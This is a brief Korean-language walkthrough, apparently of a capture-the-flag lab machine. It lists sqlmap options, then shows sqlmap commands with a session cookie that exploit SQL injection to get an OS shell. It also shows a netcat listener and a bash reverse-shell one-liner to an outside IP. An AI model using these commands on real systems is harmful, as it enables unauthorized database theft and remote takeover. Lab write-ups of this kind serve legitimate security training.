 sqlmap
#
`options`
```
--batch             사용자 입력을 요청하지 않음, 기본 동작 사용
--dump              DBMS 데이터베이스 테이블 항목 덤프
-a, --all           Retrieve everything
--forms             페이지의 <form> 요소에서 매개변수를 자동으로 선택
```
#
`URL과 쿠키로 취약점 찾기`

![image](https://user-images.githubusercontent.com/61821641/150984381-4db710d3-7502-4fe0-81d5-fdc73a0d2625.png)

```
sqlmap -u 'http://10.129.110.183/dashboard.php?search=hi' --cookie="PHPSESSID=u1348upikan6b1hj6651q09t1m" 
```
![image](https://user-images.githubusercontent.com/61821641/150985229-cb010fb0-4673-4391-861a-625cb708f3ad.png)
![image](https://user-images.githubusercontent.com/61821641/150985424-8bbafbd2-fe0a-420b-afe0-6e9f607f9bad.png)
#
`--os-shell flag 추가`

```
sqlmap -u 'http://10.129.110.183/dashboard.php?search=hi' --cookie="PHPSESSID=u1348upikan6b1hj6651q09t1m" --os-shell
```
![image](https://user-images.githubusercontent.com/61821641/150985529-affbc467-8e2c-4904-bf04-3f6067737003.png)
```
nc -lvnp 1234
```
```
bash -c "bash -i >& /dev/tcp/10.10.14.241/1234 0>&1"
```
![image](https://user-images.githubusercontent.com/61821641/150986154-101cba24-0721-471a-866c-836495842474.png)


